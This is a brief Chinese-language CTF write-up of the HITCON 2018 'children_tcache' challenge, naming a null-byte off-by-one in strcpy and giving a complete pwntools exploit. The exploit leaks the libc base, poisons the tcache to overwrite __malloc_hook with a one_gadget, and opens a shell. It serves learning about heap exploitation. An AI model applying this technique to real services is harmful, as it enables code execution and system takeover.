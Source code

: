```yaml
---
title: 'Hitcon:children_tcache'
date: 2018-11-16 22:07:12
tags:
---
```

children..和baby是名字打错了吗/捂脸
<!--more-->
# Analysis
[附件][2]
baby_tcache的低级版...
[baby_tcache][1]
主要漏洞在strcpy存在null byte off
只要像babytcache一样构造直接show来leak就可以了...
主要思路在上题链接中这里不多赘述

# EXP
```python
from pwn import *
def cmd(c):
	p.sendlineafter("ice: ",str(c))
def add(size,data):
	cmd(1)
	p.sendlineafter("Size:",str(size))
	p.sendafter("Data:",data)
def show(idx):
	cmd(2)
	p.sendlineafter("Index:",str(idx))
def free(idx):
	cmd(3)
	p.sendlineafter("Index:",str(idx))

p=process("./children_tcache")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
for x in range(6):
	add(0x80,"\n")
add(0x5e0,'\n')#6
add(0x500,'\n')#7
add(0x80,'\n')#8
free(6)


add(0x18,'B'*0x18)#6
add(0x80,'\n')#9

for x in range(6):
	free(x)


free(8)
free(6)
add(0x100,'\n')#0
free(9)
free(7)
add(0x350,'\n')#1
add(0x30,'\n')#2
add(0x40,'\n')#3
show(0)
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dcfca0-0x7ffff79e4000)
libc.address=base
log.warning(hex(base))
add(0x100,'\n')
free(0)
free(4)
add(0x100,p64(libc.symbols['__malloc_hook']))
add(0x100,p64(libc.symbols['__malloc_hook']))
add(0x100,p64(0x10a38c+base))
cmd(1)
p.sendline("0")
p.sendline("clear")
p.interactive("nier>>>")
```




[1]:[https://n132.github.io/2018/11/15/Hitcone-baby-tcache/]
[2]:[1]:https://github.com/n132/Watermalon/tree/master/Hitcon_2018/children_tcache